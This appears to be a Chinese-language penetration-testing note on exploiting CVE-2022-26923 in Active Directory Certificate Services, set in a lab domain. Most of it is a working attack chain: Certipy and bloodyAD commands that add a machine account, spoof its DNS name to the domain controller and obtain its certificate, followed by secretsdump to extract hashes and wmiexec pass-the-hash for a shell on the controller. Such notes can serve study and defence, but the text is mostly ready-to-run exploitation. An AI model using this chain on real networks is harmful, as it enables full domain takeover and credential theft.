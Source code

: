## **域控提权-CVE-2022-26923**
CVE-2022-26923 漏洞影响所有版本的Windows Server中的AD域控服务。 攻击者可以利用该漏洞在安装了AD证书服务的环境中仿冒另一计算机账户并代表该账户颁发证书，从而导致计算机账户或域控制器被接管，这有效地为攻击者提供了一个完整的域凭据泄露的清晰攻击路径。



前提条件：
1、一个域内普通账号和密码即可
2、域内存在证书服务器


利用：
示例：<https://blog.csdn.net/m0_60571842/article/details/137124354>
工具：
<https://github.com/ly4k/Certipy>
<https://github.com/CravateRouge/bloodyAD>
<https://github.com/fortra/impacket>

模拟环境：
```
Kali添加访问域内信息 /etc/hosts
192.168.3.111 xiaodi.local
192.168.3.111 xiaodi-DC-CA
192.168.3.111 DC.xiaodi.local

域内信息
192.168.3.111
test Pass123  //普通域用户账号密码
xiaodi-DC-CA //ca名
DC.xiaodi.local  //域控名

```

域内主机查看是否有证书服务器
```
certutil -config - -ping
```

利用
```
申请证书
certipy req 'xiaodi.local/test:Pass123@DC.xiaodi.local' -ca xiaodi-DC-CA -template User -debug

检测证书没问题
certipy auth -pfx test.pfx

添加用户
python3 bloodyAD.py -d xiaodi.local -u test -p 'Pass123' --host 192.168.3.111 addComputer pwnmachine 'CVEPassword1234*'

设置用户属性
python3 bloodyAD.py -d xiaodi.local -u test -p 'Pass123' --host 192.168.3.111 setAttribute 'CN=pwnmachine,CN=Computers,DC=xiaodi,DC=local' dNSHostName '["DC.xiaodi.local"]'


申请证书
certipy req 'xiaodi.local/pwnmachine$:CVEPassword1234*@192.168.3.111' -template Machine -dc-ip 192.168.3.111 -ca xiaodi-DC-CA -debug

检测证书
certipy auth -pfx ./dc.pfx -dc-ip 192.168.3.111

获取hash，用impacket工具中secretsdump.py
python3 secretsdump.py 'xiaodi.local/dc$@DC.xiaodi.local' -hashes :b6046c1026699b59301ff66341838df4

wmi的hash传递，反弹域控主机交互shell
python3 wmiexec.py xiaodi.local/administrator@192.168.3.111 -hashes aad3b435b51404eeaad3b435b51404ee:e6f01fc9f2a0dc96871220f7787164bd
```
